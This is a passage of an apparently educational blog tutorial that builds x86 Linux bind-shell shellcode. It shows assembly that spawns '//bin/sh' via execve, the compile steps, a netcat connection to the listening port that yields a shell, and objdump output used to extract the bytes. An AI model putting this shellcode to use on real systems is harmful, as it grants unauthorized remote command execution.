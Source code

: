         push 0x68732f6e         ; push //bin/sh in reverse onto the stack
        push 0x69622f2f         ; see above
        mov  ebx, esp           ; move address of //bin/sh into EBX (execve's 1st parameter)
        push eax                ; this serves two purposes 1, to use for EDX (we will pass no
                                ; environment to the shell and also as part of the array of
                                ; args that we will pass to as the 2nd arg of execve
        mov  edx, esp           ; see above
        push ebx                ; ESP now points to and array of args [address of //bin/sh, 0x00]
                                ; these will act as the args to //bin/sh
        mov ecx, esp            ; setup the 3rd argument
        mov al, 0x0b            ; set the EAX register to the execve sys call number
                                ; using al to remove any null bytes
        int 0x80                ; make the call
{% endhighlight %}

Lets compile, link and run it
```
 $ nasm -f elf32 -o bind.o bind_shell.nasm
 $ ld -m elf_i386 -o bind bind.o
 $ ./bind

```
And now on another shell
```
  $ nc localhost 5000
ls
bind
bind.o
bind_shell
bind_shell.c
bind_shell.nasm

```
Woop woop, party time!! Well not quite we wanted shellcode not and assembly
program. Lets run this through objdump
```
  $ objdump -d bind.o

bind.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:   31 c0                   xor    %eax,%eax
   2:   31 db                   xor    %ebx,%ebx
   4:   31 c9                   xor    %ecx,%ecx
   6:   31 d2                   xor    %edx,%edx
   8:   31 ff                   xor    %edi,%edi
   a:   b3 02                   mov    $0x2,%bl
   c:   fe c1                   inc    %cl
   e:   66 b8 67 01             mov    $0x167,%ax
  12:   cd 80                   int    $0x80
  14:   97                      xchg   %eax,%edi
  15:   52                      push   %edx
  16:   66 68 13 88             pushw  $0x8813
  1a:   66 53                   push   %bx
  1c:   89 e1                   mov    %esp,%ecx
  1e:   87 df                   xchg   %ebx,%edi
  20:   b2 10                   mov    $0x10,%dl
  22:   66 b8 69 01             mov    $0x169,%ax
  26:   cd 80                   int    $0x80
  28:   87 ca                   xchg   %ecx,%edx
  2a:   66 b8 6b 01             mov    $0x16b,%ax
  2e:   cd 80                   int    $0x80
```

[socket]: https://linux.die.net/man/7/socket  "Socket Man page docs"
[bind]: https://linux.die.net/man/7/bind  "Bind Man page docs"
[listen]: https://linux.die.net/man/7/listen  "listen Man page docs"
[bind]: https://linux.die.net/man/7/bind  "bind Man page docs"
[accept]: https://linux.die.net/man/7/accept  "accept Man page docs"
[dup2]: https://linux.die.net/man/7/dup2  "dup2 Man page docs"
[execve]: https://linux.die.net/man/7/execve  "execve Man page docs"